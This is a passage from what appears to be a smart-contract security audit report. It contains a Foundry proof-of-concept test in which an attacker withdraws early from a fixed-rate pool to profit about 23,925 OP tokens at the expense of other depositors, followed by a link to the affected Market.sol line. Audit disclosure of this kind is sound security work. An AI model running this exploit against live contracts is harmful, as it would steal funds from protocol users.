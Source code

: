 ```solidity
        deal(address(usdc), user, 5_500_000e6);
        usdc.approve(address(marketUSDC), 5_500_000e6);
        marketUSDC.deposit(5_500_000e6, user);
        marketUSDC.auditor().enterMarket(marketUSDC);
        marketOP.borrowAtMaturity(maturity, 500_000e18, type(uint256).max, user, user);
        marketOP.borrow(500_000e18, user, user);
        vm.stopPrank();

        // Malicious user provides liquidity for the fixed pool
        deal(address(optimism), address(this), fixedLiquidity);
        optimism.approve(address(marketOP), fixedLiquidity);
        uint256 positionAssets = marketOP.depositAtMaturity(maturity, fixedLiquidity, 0, address(this));

        vm.warp(maturity - 1 days);

        uint256 floatingLiquidityBefore = marketOP.previewRedeem(marketOP.balanceOf(address(this)));

        // Malicious user executes the attack (withdraws all from fixed pool before maturity)
        uint256 assetsDiscounted = marketOP.withdrawAtMaturity(maturity, positionAssets, 0, address(this), address(this));

        uint256 floatingLiquidityAfter = marketOP.previewRedeem(marketOP.balanceOf(address(this)));
        uint256 profits = floatingLiquidityAfter - floatingLiquidityBefore;

        // Before the attack, the attacker owned 1,003,236 OP tokens
        assertEq(floatingLiquidityBefore, 1_003_236.895405543416809745e18);

        // After the attack, the attacker owns 1,027,162 OP tokens
        assertEq(floatingLiquidityAfter, 1_027_162.288501014638447865e18);

        // The attacker has made a profit of 23,925 OP tokens
        assertEq(profits, 23_925.39309547122163812e18);

        // The cost of the attack (early withdraw) is 488 OP tokens
        assertEq(positionAssets - assetsDiscounted, 488.538063290105034868e18);
    }
}
```

**Note:** The values used on the PoC are intentionally chosen or inflated to demonstrate the bug in the implementation, and they do not affect the validity of this issue. 

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L363

## Tool used

